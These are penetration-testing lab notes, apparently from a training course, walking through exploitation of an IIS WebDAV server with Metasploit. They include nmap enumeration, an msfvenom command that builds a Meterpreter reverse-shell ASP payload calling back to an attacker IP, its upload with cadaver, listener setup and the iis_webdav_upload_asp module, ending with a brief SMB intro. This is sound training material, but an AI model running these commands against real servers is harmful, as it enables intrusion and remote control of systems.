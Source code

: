 
### Practical Exploiting WebDAV With Metasploit

- `nmap -sV -p 80 --script=http-enum demo.ine.local`

**Obtain a Meterpreter session**

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.37.7 LPORT=1234 -f asp > shell.asp` (`-p` = payload `-f` = fileformat)  Generate ASP payload
- `cadaver http://10.2.24.226/webdav` afterwards type in username and passwort
- `put /root/shell.asp` Paste asp file on webserver. The next step would be to connect to the webserver and execute it. But before we can do this, we need a listener or a handler that will receive the reverse connection and then send the stage that will then provide us with the meterpreter session when executed. 


### Use Multihandler as listener

- `service postgresql start`
- `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp` This has to be the same Payload that you had specified generating the actual asp file.
- `options`
- `set LHOST 10.10.37.7`
- `set LPORT 1234`
- `run` Start listener(reverse TCP handler) and waits for a connection from the actual asp payload we have created. 


### Run metasploit framework and exploit the target using the IIS webdav exploit module.

- `service postgresql start`
- `msfconsole`
- `use exploit/windows/iis/iis_webdav_upload_asp`
- `set RHOSTS demo.ine.local`
- `set HttpUsername bob`
- `set HttpPassword password_123321`
- `set PATH /webdav/metasploit%RAND%.asp`
- `exploit`
After We have got a Meterpreter session:
- `shell` open shell
- `cd /`
- `dir`
- `type flag.txt` This reveals the flag to us.


### Exploiting SMB With PsExec

SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a LAN. SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139. SAMBA is the open source Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.
